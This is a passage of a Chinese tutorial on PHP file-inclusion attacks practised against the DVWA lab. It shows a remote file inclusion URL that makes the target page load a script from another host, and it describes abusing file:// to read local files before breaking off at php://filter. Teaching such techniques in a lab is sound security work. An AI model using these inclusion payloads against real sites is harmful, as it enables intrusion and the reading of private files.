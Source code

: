 ![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicM2adylDHQSE9Wvlt8r17ZCtpjGy7RNN8VzMx9yaupsJzp0UvibsbY6UwDKT5wyZIV7MoEJu7t4jqw/640?wx_fmt=png&from=appmsg "")  
  
  
在vps上布置一个恶意php脚本  
```
```  
  
远程包含恶意文件http://127.0.0.1/dvwa/vulnerabilities/fi/?page=http://172.16.14.105:8000/phpinfo.php  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicM2adylDHQSE9Wvlt8r17ZCpoc6okB9J5ISyfibJdUiaM9Lh8WW22XYNkTbnA5hosIBnmT00DJCtAYQ/640?wx_fmt=png&from=appmsg "")  
  
## 四、伪协议的利用  
### 1. file://  
1. 作用：读取本地文件  
  
1. 使用方法：file://[文件的绝对路径和文件名]  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicM2adylDHQSE9Wvlt8r17ZCZOrA4GtonpKpKGYxyuoibVQq0DPwbX3IMqicF0g7Up2glrcbTUyBwN2w/640?wx_fmt=png&from=appmsg "")  
  
  
### 2. php://filter  
1. 作用：设计用于数据流打开时的筛选过滤应用。  
  
1. 使用方法：  